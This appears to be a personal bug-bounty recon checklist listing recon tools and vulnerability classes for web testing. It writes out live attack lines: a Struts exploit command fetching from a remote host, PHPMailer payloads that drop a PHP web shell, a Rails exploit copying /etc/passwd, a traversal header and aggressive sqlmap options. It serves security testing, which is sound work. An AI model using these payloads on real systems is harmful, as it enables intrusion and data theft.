 #					My Bug-Bounty Recon Process

### Recon Process in two part 

    1-Automation
    2-Manual
    3-After Recon: Exploit

**1- Start Automation in background, while automating time you can manually check all features of web and check every thing, Don't forget to analyse `source code`**

	1 Gather Subdomain
	2 Gather URLs,GF-Pattern
	3 Gather JS File
	4 Gather IP,Port
	5 Google/Github Dorking

### 2- Let's check mannually all vulnerability types.

<details><summary>Bug</summary>
<p>

#### We can hide anything, even code!
	- Blind XSS
		- Blind XSS payload in User-Agent header
		- BXSS Payload while logging (Enter the BXSS Payload in forgot pass, login, singup to generate errors)
		- Use BXSS Pyload as your password
	- Add Header in the Match an Replace Proxy- Add X-Forwarded-Host: evil.com - browse the program and then click burp search and try to find your X-Forwarded-Host: Value for web chache deception,poisoning.

	- HTTP Request Sumggling > Ihave give this ariticle and tool in my telegram.
	- Apply on .html to xhtml
	- python struts-pwn.py -u http://site.com/orders.xhtml -c "wget http://ip:1337/test" --exploit
	- Test For Electronic code book (AAAAAAA aaaaaa BBBBBB)
	- CVE-2016-10033: PHPMailer RCE
		- email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"127.0.0.1
		- subject: <?php system($_GET['cmd']);?>

	- Change all the request to TRACE method to disclose or access info.
	- Check For broken link - tool: blc https://comany.com -ro 

	- companyname.atlassian.net
	- jira.companyname.com
	- VHOST Testing
	- Test For buckets
	- Check Github & dork list
		(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,bucket,GITHUB_TOKEN)
	- gau or gauplus site.com
	- waybackurl site.com
	- Accessing misconfigured data of an org: https://storage.googleapis.com/<org-name>
	- Unautorized access to org's google groups: https://groups.google.com/a/<org-name>
	- if running ruby on rails then: Accept: ../../../../../../../../../etc/passwd{{
	- CVE-2013-0156: Rails Object injection: ruby rails_rce.rb http://site.com 'cp /etc/passwd public/file.txt'
		(raw- https://gist.github.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
		(https://gist.github.com/postmodern/4499206)
	- CVE-2013-0156 Hint: PHP based website on NGINX phpip-fpizdam http://site.com/anyphpfile.php
	- Check FOr crlf injection
	- Bypass Open redirection protection
	- keyfinder
	- Google Dork
	> check email verfication admin@site.com
	> site.com/home/....4....json [will disclose all the content of the home dir | sensitive info]
	- CVE-2019-19781 Ciritix NetScaler Directory Traversal: curl -vk -path-as-is https://$target/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "Vulnerable $Target" || echo "MITIGATED: $TARGET"



</p>
</details>

## Specific Buf List:
	
- [ ] Authentication
- [ ] OAuth authentication
- [ ] SQL injection
	- Use GF to grep all possible sqli parameter
	- Use SQLi [Destector](https://github.com/eslam3kl/SQLiDetector?s=09)
	- Use User-Agent fuzzer for [sqli](https://github.com/root-tanishq/userefuzz)
	- Use Error base sqli template nuclei.
	- Blind SQLi and Time Base SQLi [too](https://github.com/JohnTroony/Blisqy?s=09)
<details><summary>SQLi Test list</summary>
<p>
### Find SQL injection with ffuf:
Wayback and grep all php files,
```waybackurls https://redacted.org/ | uro | grep “.php” > php-files.txt```
OK let’s do some bash to grep the names after get to make a list of parameters to brute force in the endpoints.

**Getting Parameters**

```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | sort -u```
remove the .php string to make a list - ```cut -f1 -d”.”```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sort -u```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sed 's/[A-Z]\+/\n&/g' | sort -u | tee uppercase-param.txt```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sed 's/[A-Z]\+/\n&/g' | sort -u | tr '[:upper:]' '[:lower:]' > lowercase-param.txt
so now we have two lists of parameters let’s test it with FFUF, firstly I’ll grep endpoint and test all params with it, I’ll try the lowercase-parameters first with this command:
```ffuf -w lowercase-parameters.txt -u "https://redacted.org/searchProgressCommitment.php?FUZZ=5"```
If you don't get anything: Try with POST request
```ffuf -w lowercase-parameters.txt -X POST -d "FUZZ=5" -u "https://redacted.org/searchProgressCommitment.php"```
Ok now go to the endpoint and intercept the request with burp and change the request method, add the parameter, and copy it to a txt file to run sqlmap on it.

SQL:Command:
```sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast```

</p></details>
</p></details>

- [ ] XSS
<details><summary>XSS Check list and TIPs</summary>
<p>
	
  -  Stored XSS	
  -  Reflect XSS 	
  -  DOM XSS 	
  -  Blind XSS 	
  -  Header injection 	
  -  XSS in cookie body, Local Storage	
  -  Proto type pollution 	
  -  HTMLi
	
### XSS hunting with ffuf
```ffuf -w /usr/share/wordlists/dirb/big.txt -u https://rob-sec-1.com/FUZZ -o Ffuf/Recruitment.csv -X HEAD -of csv```
	
What this tool will do is try to enumerate different directories within the application,replacing FUZZ with items from the big.txt list of words. If we sneak peek a sample of this file:
	
Running the above generated the following CSV that we can read from the Linux terminal using the ```column``` command:
```column -s, -t Ffuf/Recruitment.csv```

[Refrence](https://markitzeroday.com/xss/hidden/reflected/content-discovery/bug-bounty/2020/03/03/xss-hunting.html)

</p>
</details>

- [ ] CSRF
- [ ] IDOR
- [ ] Clickjacking
- [ ] DOM-based
- [ ] vCORS
- [ ] XXE
- [ ] SSRF

       - Try SSRF in Referer header : Shellshock Exploitation 
       - Test with match and replace in burp 
       - Read SSRF Checklist 
- [ ] Request smuggling
- [ ] Command injection
- [ ] Server-side template injection
       - [Try This Tool](https://github.com/faiyazahmad07/SSTI_DETECTOR)
       
- [ ] Insecure deserialization
- [ ] Directory traversal
- [ ] Access control
- [ ] Business logic vulnerabilities
- [ ] Web cache poisoning
- [ ] HTTP Host header attacks
- [ ] WebSockets
- [ ] Information disclosure
- [ ] File upload vulnerabilities
- [ ] JWT attacks





### Subdomain Takeover: 
- *Try a tool name subzy*
- *Try this subjack*
	subjack -w subdomain.txt -t 20 -timeout 30 -o subjack1.txt -ssl -a -c "/root/fingerprints.json"
	subzy -targets host.txt --hide_fails --concurrency 100
	
- Try [DNS-Reaper](https://www.kitploit.com/2022/08/dnsreaper-subdomain-takeover-tool-for.html?m=1) 
